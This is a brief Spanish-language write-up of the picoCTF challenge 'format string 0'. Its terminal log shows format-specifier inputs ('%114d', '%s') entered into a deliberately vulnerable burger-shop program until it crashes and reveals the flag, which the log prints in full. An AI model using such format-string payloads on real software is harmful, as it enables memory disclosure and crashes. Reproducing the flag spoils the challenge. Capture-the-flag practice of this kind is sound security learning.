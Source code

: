 ## Objetivo
Can you use your knowledge of format strings to make the customers happy?Download the binary [here](https://artifacts.picoctf.net/c_mimas/67/format-string-0).Download the source [here](https://artifacts.picoctf.net/c_mimas/67/format-string-0.c).

Additional details will be available after launching your challenge instance.
## Solución
```
┌──(jars㉿jars)-[~/picoCTF/retosEquipo/formatstring0]
└─$ nc mimas.picoctf.net 54400

Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: Gr%114d_Cheese
Gr                                                                                                           4202954_Cheese
Good job! Patrick is happy! Now can you serve the second customer?
Sponge Bob wants something outrageous that would break the shop (better be served quick before the shop owner kicks you out!)
Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
Enter your recommendation: Cla%sic_Che%s%steak
ClaCla%sic_Che%s%steakic_Che(null)
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_74f6c0e7}
                                                                                                                                                                                                                                            
┌──(jars㉿jars)-[~/picoCTF/retosEquipo/formatstring0]
└─$ 

```
## Notas adicionales
## Referencias 